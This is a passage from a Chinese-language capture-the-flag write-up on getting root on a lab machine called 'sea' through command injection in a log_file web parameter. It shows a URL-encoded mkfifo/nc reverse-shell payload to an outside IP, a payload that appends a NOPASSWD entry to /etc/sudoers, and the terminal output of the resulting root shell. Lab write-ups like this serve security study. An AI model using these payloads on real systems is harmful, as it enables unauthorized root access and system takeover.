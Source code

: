 
### 关于root shell

当尝试用payload `log_file=/home/amay/user.txt;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.47%204444%20%3E%2Ftmp%2Ff&analyze_log=` 时，确实能获得root shell，但是会立马断开：
```
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.28] 48044
bash: cannot set terminal process group (2834): Inappropriate ioctl for device
bash: no job control in this shell
root@sea:~/monitoring#
```


尝试其他方法，先看看命令注入能做到什么程度。发送payload `log_file=/home/amay/user.txt;touch+/home/amay/poc&analyze_log=`，可以发现root创建的文件：
```
amay@sea:~$ ll
<SNIP>
-rw-r--r-- 1 root root    0 Aug 15 15:37 poc
-rw-r--r-- 1 amay amay  807 Feb 25  2020 .profile
drwx------ 2 amay amay 4096 Feb 21 01:18 .ssh/
-rw-r----- 1 root amay   33 Aug 15 14:47 user.txt
```

那么添加amay到sudoers：`log_file=/home/amay/user.txt;echo+'amay++++ALL=(ALL:ALL)+NOPASSWD:+ALL'+>>+/etc/sudoers&analyze_log=`

获得root shell：
```
amay@sea:~$ sudo -l
Matching Defaults entries for amay on sea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amay may run the following commands on sea:
    (ALL : ALL) NOPASSWD: ALL
amay@sea:~$ sudo bash
root@sea:/home/amay# id
uid=0(root) gid=0(root) groups=0(root)
root@sea:/home/amay# cd /root/
root@sea:~# ls
monitoring  root.txt  scripts
```


### 关于命令注入的网页

拿到root shell之后顺便收集了一下最后命令注入的网页相关源码：
```bash
root@sea:~# ls scripts/
monitoring-watchdog.sh
root@sea:~# cat scripts/monitoring-watchdog.sh 
#!/bin/bash

while true; do
    status_site=$(/usr/bin/curl -s --max-time 2 http://127.0.0.1:8080)

    if [ $? -ne 0 ]; then
        /usr/bin/systemctl restart monitoring.service
    fi
    sleep 3
done
root@sea:~# ls monitoring/
index.php
root@sea:~# cat monitoring/index.php 
```